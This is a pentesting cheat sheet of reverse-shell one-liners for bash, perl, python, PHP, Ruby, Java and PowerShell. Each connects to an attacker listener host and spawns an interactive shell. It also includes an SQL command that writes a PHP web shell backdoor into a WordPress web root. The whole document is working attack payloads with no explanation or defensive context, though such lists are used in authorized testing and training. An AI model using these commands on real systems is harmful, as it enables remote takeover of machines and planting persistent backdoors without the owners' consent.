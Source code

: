 Creating reverse shells
*************************

bash
######

.. code-block:: console

   normal: bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1
   bash within bash: bash -c ' bash+-i+>&+/dev/tcp/10.10.14.20/4444+0>&1 '
   bash within bash url: bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.20/4444+0>%261'

perl
######

.. code-block:: console

   perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/bin/sh -i");};'

python
########

.. code-block:: console

   python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

PHP
#####

.. code-block:: console

        php -r '$sock=fsockopen("<LHOST>",<LPORT>);exec("/bin/sh -i <&3 >&3 2>&3");'

SQL + PHP
############

.. code-block:: console

   SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/wordpress/backdoor.php"

Ruby
######

.. code-block:: console

   ruby -rsocket -e'f=TCPSocket.open("<LHOST>",<LPORT>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Java
########

.. code-block:: console

   r = Runtime.getRuntime()
   p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
   p.waitFor()

Powershell
#############

.. code-block:: console

   powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<attacker_IP>',<attacker listener port>);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
